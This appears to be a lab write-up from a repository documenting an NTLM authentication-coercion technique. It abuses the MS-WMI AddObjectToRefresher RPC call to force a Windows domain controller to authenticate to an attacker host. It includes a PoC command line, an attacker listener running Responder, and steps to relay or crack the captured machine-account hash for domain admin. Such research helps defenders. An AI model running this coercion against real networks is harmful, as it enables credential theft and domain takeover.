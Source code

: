 # MS-WMI - Remote call to IWbemRefreshingServices::AddObjectToRefresher (opnum 3)

## Summary

+ **Protocol**: [[MS-WMI]: Windows Management Instrumentation Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c476597d-4c76-47e7-a2a4-a564fe4bf814)

+ **Protocol UUID**: 8bc3f05e-d86b-11d0-a075-00c04fb68820

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`IWbemRefreshingServices::AddObjectToRefresher`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/cf79fb85-e0cb-4778-86de-03da6de4d5d8)

+ **Function operation number**: `3`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-WMI`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c476597d-4c76-47e7-a2a4-a564fe4bf814) protocol (with uuid `8bc3f05e-d86b-11d0-a075-00c04fb68820` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-WMI`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c476597d-4c76-47e7-a2a4-a564fe4bf814) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-WMI]: Windows Management Instrumentation Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c476597d-4c76-47e7-a2a4-a564fe4bf814) and allows to call RPC functions of this protocol. We will then call the remote [`IWbemRefreshingServices::AddObjectToRefresher`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/cf79fb85-e0cb-4778-86de-03da6de4d5d8) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IWbemRefreshingServices::AddObjectToRefresher('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT AddObjectToRefresher(
   [in] _WBEM_REFRESHER_ID* pRefresherId,
   [in, string] LPCWSTR wszPath,
   [in] long lFlags,
   [in] IWbemContext* pContext,
   [in] DWORD dwClientRefrVersion,
   [out] _WBEM_REFRESH_INFO* pInfo,
   [out] DWORD* pdwSvrRefrVersion
 );
```

## References

+ Documentation of protocol [MS-WMI]: Windows Management Instrumentation Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c476597d-4c76-47e7-a2a4-a564fe4bf814

+ Documentation of function `IWbemRefreshingServices::AddObjectToRefresher`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/cf79fb85-e0cb-4778-86de-03da6de4d5d8